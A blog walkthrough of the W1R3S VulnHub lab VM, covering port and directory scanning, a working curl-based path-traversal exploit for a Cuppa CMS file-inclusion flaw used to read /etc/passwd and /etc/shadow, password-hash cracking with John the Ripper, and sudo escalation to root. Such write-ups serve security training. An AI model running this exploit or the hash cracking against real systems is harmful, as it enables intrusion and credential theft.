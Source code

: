 ```yaml
---
layout: post
title: "Ghost in the Wires"
category: Walkthrough
tags: [VulnHub, W1R3S]
comments: true
image:
  feature: ghosts.jpg
  credit: Alexas_Fotos / Pixabay
  creditlink: https://pixabay.com/en/halloween-ghosts-happy-halloween-1746354/
---
```


This post documents the complete walkthrough of W1R3S: 1.0.1, a boot2root [VM][1] created by SpecterWires, and hosted at [VulnHub][2]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

Someone hires you to do a penetration test on the W1R3S.inc individual server and report all findings. They ask you to gain `root` access and find the flag (located in `/root` directory).

### Information Gathering

Let's kick this off with a `nmap` scan to establish the services available in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.100.130
...
PORT     STATE SERVICE REASON         VERSION
21/tcp   open  ftp     syn-ack ttl 64 vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23 11:21 content
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23 11:25 docs
|_drwxr-xr-x    2 ftp      ftp          4096 Jan 28 16:53 new-employees
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 07:e3:5a:5c:c8:18:65:b0:5f:6e:f7:75:c7:7e:11:e0 (RSA)
|_  256 03:ab:9a:ed:0c:9b:32:26:44:13:ad:b0:b0:96:c3:1e (ECDSA)
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3306/tcp open  mysql   syn-ack ttl 64 MySQL (unauthorized)
```

As usual, let's go with directory/file enumeration on the web service and see what we get.

### Directory/File Enumeration

I've always like to use `gobuster` with one of the big directory wordlists.

```
Gobuster v1.1                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://192.168.100.130/
[+] Threads      : 10
[+] Wordlist     : /usr/share/dirb/wordlists/big.txt
[+] Status codes : 200,204,301,302,307
[+] Expanded     : true
=====================================================
http://192.168.100.130/administrator (Status: 301)
http://192.168.100.130/javascript (Status: 301)
http://192.168.100.130/wordpress (Status: 301)
=====================================================
```

OK. We have two interesting directories: `administrator` and `wordpress`.

### Cuppa CMS

The `administrator` directory turns out to be the installation setup for Cuppa CMS. This is how it looks like when I point the browser to `/administrator`.

![screenshot-1](/assets/images/posts/w1r3s-walkthrough/screenshot-1.png)

According to the official [documentation](https://www.cuppacms.com/en/docs/installation), in order for the installation to complete, it will have to create the database first.

>Remember, the database should be created before to install Cuppa CMS.

The Cuppa CMS installation was never completed in the first place or I'll not be seeing the setup page. I downloaded a [copy](http://cuppacms.com/files/cuppa_cms.zip) of the Cuppa CMS code to see if I can discover any vulnerabilities.

I'm not sure if this is a new vulnerability but it's a pleasant surprise to find an LFI vulnerability in `alertConfigField.php` at line 77.

![screenshot-2](/assets/images/posts/w1r3s-walkthrough/screenshot-2.png)

To test it, I wrote `cat.sh`, a simple script that will display any file as long as there's permission to do so.

{% highlight bash linenos %}
#!/bin/bash

_HOST=192.168.100.130
_PATH=administrator/alerts/alertConfigField.php
_PARM=urlConfig
_TRAV=../../../../../../../..

curl -s --data-urlencode "${_PARM}=${_TRAV}$1" $_HOST/$_PATH \
| sed -r 's/^ {8}//' \
| sed '71,$!d' \
| sed '$d' \
| sed '$d'
{% endhighlight %}

Let's give it a shot and see what we get.

```
# ./cat.sh /etc/passwd
...
w1r3s:x:1000:1000:w1r3s,,,:/home/w1r3s:/bin/bash
sshd:x:121:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:122:129:ftp daemon,,,:/srv/ftp:/bin/false
mysql:x:123:130:MySQL Server,,,:/nonexistent:/bin/false
```
Imagine my surprise when I requested for `/etc/shadow` and it showed up in the output.

```
# ./cat.sh /etc/shadow
...
w1r3s:$6$xe/eyoTx$gttdIYrxrstpJP97hWqttvc5cGzDNyMb0vSuppux4f2CcBv3FwOt2P1GFLjZdNqjwRuP3eUjkgb/io7x9q1iP.:17567:0:99999:7:::
sshd:*:17554:0:99999:7:::
ftp:*:17554:0:99999:7:::
mysql:!:17554:0:99999:7:::
```

I'm not sure if `/etc/shadow` is intentionally made world-readable; it should not be the case.

### John the Ripper

With both `passwd` and `shadow` available, I can `unshadow` them, and send them to `john` for offline cracking with a wordlist like "rockyou".

The cracking completes in seconds.

```
# john --format=crypt --show hashes.txt
w1r3s:computer:1000:1000:w1r3s,,,:/home/w1r3s:/bin/bash
```

I can now log in to the box via SSH with the cracked password.

![screenshot-3](/assets/images/posts/w1r3s-walkthrough/screenshot-3.png)

### Privilege Escalation

It isn't long before I see that `w1r3s` is on the `sudoers` list.

![screenshot-4](/assets/images/posts/w1r3s-walkthrough/screenshot-4.png)

Becoming `root` is another command away.

![screenshot-5](/assets/images/posts/w1r3s-walkthrough/screenshot-5.png)

:dancer:

### Afterthought

To be honest, I didn't even bother with WordPress. :stuck_out_tongue_winking_eye:

[1]: https://www.vulnhub.com/entry/w1r3s-101,220/
[2]: https://www.vulnhub.com

*[LFI]: Local File Inclusion
